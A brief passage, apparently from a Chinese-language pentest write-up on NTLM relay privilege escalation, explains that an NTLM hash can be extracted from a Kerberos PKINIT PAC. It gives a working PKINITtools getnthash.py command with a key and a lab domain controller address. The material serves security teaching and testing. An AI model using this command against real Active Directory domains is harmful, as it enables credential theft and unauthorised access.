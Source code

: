 ![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515104316788.png)

### Create a Silver Ticket

此外，在使用证书进行 Kerberos PKINIT 身份验证的时候，可以通过解密 PAC 结构直接获取用户的 NTLM 凭据，如下图所示。

```bash
export KRB5CCNAME=tE3so2th.ccache
proxychains4 python3 ~/PKINITtools/getnthash.py -key f0386cb579ba5f039a61a49fbde2e612822b80eff81434925d3f16a3f033af06 -dc-ip 172.26.10.11 pentest.com/win10-client1\$
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515113257597.png)
